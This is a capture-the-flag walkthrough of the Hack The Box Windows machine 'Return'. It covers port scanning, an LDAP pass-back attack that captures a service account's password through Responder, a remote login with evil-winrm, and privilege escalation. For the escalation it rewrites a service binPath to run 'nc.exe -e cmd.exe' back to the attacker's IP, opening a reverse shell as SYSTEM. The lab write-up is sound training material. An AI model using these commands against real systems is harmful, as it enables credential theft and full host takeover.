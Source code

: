 # Box: Return
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.88.241 -p- -v -T4```

```
Nmap scan report for 10.129.88.241
Host is up (0.42s latency).
Not shown: 65458 closed tcp ports (reset), 51 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-14 12:22:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
50865/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/14%OT=53%CT=1%CU=43018%PV=Y%DS=2%DC=T%G=Y%TM=652A84
OS:2C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=RI%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%I
OS:SR=101%TI=RD%CI=I%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=101%TI=RD%CI=RI%II=I%TS
OS:=U)SEQ(SP=105%GCD=2%ISR=101%TI=RD%CI=I%II=I%TS=U)OPS(O1=M53ANW8NNS%O2=M5
OS:3ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%W
OS:2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53ANW
OS:8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y
OS:%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF
OS:=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80
OS:%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T12:24:21
|_  start_date: N/A
|_clock-skew: 18m33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   436.16 ms 10.10.16.1
2   231.29 ms 10.129.88.241

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 14 13:06:04 2023 -- 1 IP address (1 host up) scanned in 2869.49 seconds
```
From our scan we have quite a number of ports opened. We\ll start our enumeration today from port 80


# Enumeration(Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64f03f1e-6136-4c05-afb4-b1a015eae14a)

We get this HTB Printer Admin Panel

Click on "Settings", you'll see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7d4a38d9-2c47-4c16-9eee-ab20c042f988)

We can perform something called ```LDAP Pass-back``` attack against this printer. This is a common attack against network devices, such as printers. Lets exploit this hehe


# Exploitation

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/909ef243-ec00-408a-96d2-848ec437d8e5)

In this attack we can modify this server address to our IP, then we'll get the printer to connect to us instead, which would disclose the credentials. 

To do this, we will set responder to run on the interface connected to the vpn.

command:```sudo responder -I tun0```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ea4cc4c9-8fe2-4098-945d-b9b1d8e5e028)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/34081969-6a59-43c8-9208-7f7b67bde4a4)


Now, lets go back to the webpage and try to update the settings

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef37a2ca-dfcd-43bf-a09e-e431cfe2e9a3)

Checking our listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/125c9f3b-51e7-474c-bbda-d9d024992009)

We were able to successfully capture the creds hehe😎.

Now lets connect to this using ```evil-winrm```.

command:```evil-winrm -u svc-printer -i 10.129.88.241 -p '1edFg43012!!'```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/83d6542b-65ff-4919-bfe8-18eb19a732ae)

soft!!😂. Lets go ahead to escalate our privileges



# Privilege Escalation

Checking the list of users on the computer

command:```net user svc-printer```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e74cc2e7-6e59-4dd8-ae56-0f32ba3801e8)

Being a member of server operator group is not a vulnerability, but the member of this group has special privileges to make changes in the domain which could lead an attacker to escalate to system privilege.

You can check out this  [blog](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/), it's well explained here.

Lets list services running on this server using the ```services``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/42230f3b-36fa-4587-98d8-5e91abff7390)

We can see list of services are there. Then we noted the service name “VMTools” and service binary path for lateral usage.

Lets upload ```nc.exe``` to the target's machine

command:```upload nc.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3b7cbfdb-a71d-4723-a8dc-90de7c27cd56)

cool cool,

When we start any service then it will execute the binary from its binary path so if we replace the service binary with netcat or reverse shell binary then it will give us a reverse shell as a system user because the service is starting as a system on the compromised host

Now,

commands
```
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.16.30 1337"
sc.exe stop VMTools
sc.exe start VMTools
```
Ensure you set up your netcat listener before starting the service again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9f0e1e00-edff-47b9-a491-242c38177eb3)

Nice stuff hehe, we spwned a shell as ```nt authority\system```.

That will be all for today
<br><br>
[Back To Home](../../index.md)

























































